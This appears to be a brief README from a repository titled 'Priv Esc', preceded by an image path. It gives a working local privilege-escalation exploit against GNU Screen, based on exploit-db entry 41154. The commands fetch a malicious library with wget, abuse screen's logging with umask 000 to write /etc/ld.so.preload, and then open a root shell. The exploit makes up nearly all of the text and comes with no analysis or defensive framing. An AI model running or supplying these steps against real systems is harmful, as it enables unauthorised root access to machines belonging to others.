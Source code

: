 # Priv Esc
Based on https://www.exploit-db.com/exploits/41154

Remember to download libhax.so from this repo
```
cd /tmp
wget http://127.0.0.1/libhax.so
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
